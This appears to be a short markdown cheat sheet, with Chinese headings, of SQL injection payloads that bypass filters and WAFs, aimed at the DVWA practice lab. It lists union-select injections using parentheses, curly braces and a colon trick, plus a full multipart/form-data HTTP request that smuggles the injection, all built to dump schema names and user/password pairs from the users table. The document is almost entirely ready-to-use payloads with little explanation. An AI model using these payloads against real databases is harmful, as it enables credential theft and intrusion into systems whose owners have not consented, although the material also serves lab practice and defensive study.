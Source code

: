 
## 小括号bypass

	1' union(select 1,schema_name from information_schema.schemata limit 1)#
	1' union(select 1,concat(user,'|',password) from dvwa.users limit 1) #
	
## 花括号bypass

    1' union select{x 1},concat(user,'|',password) from dvwa.users limit 1 #

## Content-Type: multipart/form-data bypass

    POST /dvwa/vulnerabilities/sqli/ HTTP/1.1
    Host: 192.168.14.51
    User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:42.0) Gecko/20100101 Firefox/42.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Cookie: security=low; PHPSESSID=3fma7pasfhml449rtl21nvnuc0
    X-Forwarded-For: 127.0.0.1
    Connection: keep-alive
    Content-Type: multipart/form-data; boundary=--------915864227
    Content-Length: 196

    ----------915864227
    Content-Disposition: form-data; name="id"   

    1' union select user(),2 #
    ----------915864227
    Content-Disposition: form-data; name="Submit"   

    Submit#
    ----------915864227--

## 其他思路

    1' union select:a,concat(user,'|',password) from dvwa.users limit 1 #
